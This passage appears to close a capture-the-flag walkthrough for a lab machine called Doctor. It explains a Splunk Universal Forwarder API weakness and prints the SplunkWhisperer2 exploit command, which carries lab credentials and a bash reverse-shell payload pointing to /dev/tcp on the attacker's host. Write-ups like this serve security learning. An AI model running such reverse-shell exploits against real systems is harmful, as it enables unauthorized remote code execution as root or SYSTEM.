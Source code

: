 <img src="/assets/img/ChallengeVMs/Doctor/img10.png"  style="width: 70%" />
</p>

Going back to the initial blog post: <https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/>, it showed that the Splunkd API could be abused by anyone who had access to the API:

> The Splunk Universal Forwarder Agent (UF) allows authenticated remote users to send single commands or scripts to the agents through the Splunk API. The UF agent doesn’t validate connections coming are coming from a valid Splunk Enterprise server, nor does the UF agent validate the code is signed or otherwise proven to be from the Splunk Enterprise server. This allows an attacker who gains access to the UF agent password to run arbitrary code on the server as SYSTEM or root, depending on the operating system.

A bit of Google searching provided me with the following Github page which aimed to exploit this service: <https://github.com/cnotin/SplunkWhisperer2>. The help commands are shown below:

<details></details>

The exploit itself looked simple enough so I decided to try it. The command that I used as well as the successful exploitation thereof is shown below:

```python
python PySplunkWhisperer2_remote.py --lhost 10.10.14.106 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.106/1234 0>&1"'
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Doctor/img11.png"  style="width: 70%" />
</p>

That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.